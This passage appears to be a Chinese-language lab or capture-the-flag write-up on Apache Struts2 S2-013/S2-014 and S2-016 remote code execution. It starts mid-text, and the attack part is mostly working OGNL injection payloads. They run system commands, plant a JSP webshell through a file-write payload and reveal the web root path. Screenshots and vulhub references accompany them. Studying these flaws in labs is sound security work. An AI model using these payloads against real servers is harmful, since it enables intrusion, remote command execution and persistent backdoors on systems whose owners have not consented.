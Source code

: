 注意传值的时候要先url编码，任意命令执行POC：(最后一行未执行成功)
```c
/link.action?a=${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}
或
/link.action?a=${#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(+new java.lang.String(#d)),#out.close()}
或
/link.action?a=${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```
![](https://img-blog.csdnimg.cn/20200521174432676.png)
参考：
[S2-013/S2-014 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md)

#### [struts2]s2-016
影响版本: 2.0.0 - 2.3.15
>在struts2中，DefaultActionMapper类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令

访问index.action执行命令，记得url编码
```js
/index.action?redirect%3A%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22uname%20-a%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D
```
![](https://img-blog.csdnimg.cn/20201007134259849.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)访问env获取环境变量得到flag
![](https://img-blog.csdnimg.cn/20201007134401344.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)写入webshell：
```js
/index.action?redirect%3A%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletRequest%22)%2C%23b%3Dnew%20java.io.FileOutputStream(new%20java.lang.StringBuilder(%23a.getRealPath(%22%2F%22)).append(%40java.io.File%40separator).append(%221.jspx%22).toString())%2C%23b.write(%23a.getParameter(%22t%22).getBytes())%2C%23b.close()%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%22BINGO%22)%2C%23genxor.flush()%2C%23genxor.close()%7D
```

获取web目录
```js
/index.action?redirect%3A%24%7B%23req%3D%23context.get('co'%2B'm.open'%2B'symphony.xwo'%2B'rk2.disp'%2B'atcher.HttpSer'%2B'vletReq'%2B'uest')%2C%23resp%3D%23context.get('co'%2B'm.open'%2B'symphony.xwo'%2B'rk2.disp'%2B'atcher.HttpSer'%2B'vletRes'%2B'ponse')%2C%23resp.setCharacterEncoding('UTF-8')%2C%23ot%3D%23resp.getWriter%20()%2C%23ot.print('web')%2C%23ot.print('path%3A')%2C%23ot.print(%23req.getSession().getServletContext().getRealPath('%2F'))%2C%23ot.flush()%2C%23ot.close()%7D
```
![](https://img-blog.csdnimg.cn/20201007135441906.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
[Struts2最近几个漏洞分析&稳定利用Payload](https://www.freebuf.com/articles/web/25337.html)
[S2-016 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-016/README.zh-cn.md)
